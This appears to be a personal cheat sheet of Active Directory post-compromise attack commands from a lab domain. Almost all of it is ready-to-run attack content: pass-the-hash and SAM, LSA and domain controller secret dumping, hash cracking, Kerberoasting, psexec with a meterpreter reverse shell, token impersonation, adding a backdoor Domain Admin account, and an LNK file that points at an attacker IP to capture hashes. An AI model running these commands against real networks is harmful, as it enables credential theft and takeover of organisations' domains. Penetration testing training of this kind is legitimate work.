# Active Directory Post Compromise Attacks

## Pass the Password/Pass the Hash attack

Pass the password

    • Crackmapexec smb <iprange> -u fcastle -d MARVEL.local -p Password1
    
Pass the Hash
    • crackmapexec smb 192.168.146.1/24 -u administrator -H aad3b435b51404eeaad3b435b51404ee:1f3f6d76341609e02852abfe46d5de0c --local-auth
    
Dump the sam on the machine
    
    • crackmapexec smb 192.168.146.1/24 -u administrator -H aad3b435b51404eeaad3b435b51404ee:1f3f6d76341609e02852abfe46d5de0c --local-auth --sam
    
Dumping the shares
    • crackmapexec smb 192.168.146.1/24 -u administrator -H aad3b435b51404eeaad3b435b51404ee:1f3f6d76341609e02852abfe46d5de0c --local-auth --shares
    
Dump LSA
    
    • crackmapexec smb 192.168.146.1/24 -u administrator -H aad3b435b51404eeaad3b435b51404ee:1f3f6d76341609e02852abfe46d5de0c --local-auth --lsa
    
All passwords
    • Crackmapexec smb -L
    
Use a module eg lsassy

Access Crackmapexec Database
    • Cmedb 










## Dumping and Cracking Hashes

Dump local SAM hashes

    • secretsdump.py MARVEL.local/fcastle:'Password123!'@192.168.146.152

    • secretsdump.py administrator:@192.168.146.150  -hashes aad3b435b51404eeaad3b435b51404ee:1f3f6d76341609e02852abfe46d5de0c

Cracking hash (only NT hash is required)

    • hashcat -m 1000 ntlm.txt /usr/share/wordlists/rockyou.txt




## Kerbroasting

    • sudo GetUserSPNs.py MARVEL.local/fcastle:Password123! -dc-ip 192.168.146.149 -request     
    • hashcat -m 13100 krb.txt /usr/share/wordlists/rockyou.txt




## Token Impersonation

Msfconsole 

    • Use exploit/windows/smb/psexec
    • set payload windows/x64/meterpreter/reverse_tcp

    • Meterpreter >>  shell
    • Meterpreter >> load incognito

    • List_tokens -u 

    • List_tokens -g

    • impersonate_token marvel\\fcastle

To get back to the NT auth acc : rev2self

Add new user to the domain
    • net user /add hawkeye Password123! /domain

Add hawkeye to the domain admin group

    • net group "Domain Admins" hawkeye /ADD /DOMAIN

Dumping secrets of the domain controller using hawkeye

    • secretsdump.py MARVEL.local/hawkeye:'Password123!'@192.168.146.149










## LNK file attacks

Elevated Powershell

$objShell = New-Object -ComObject WScript.shell
$lnk = $objShell.CreateShortcut("C:\test.lnk")
$lnk.TargetPath = "\\attackerip\@test.png"
$lnk.WindowStyle = 1
$lnk.IconLocation = "%windir%\system32\shell32.dll, 3"
$lnk.Description = "Test"
$lnk.HotKey = "Ctrl+Alt+T"
$lnk.Save()

    • Sudo responder -I eth0 -dp

    • Netexec smb <machine ip> -d marvel.local -u fcastle -p Password -M slinky -M slinky -NAME=test •SERVER=<Atttacker IP> 

    

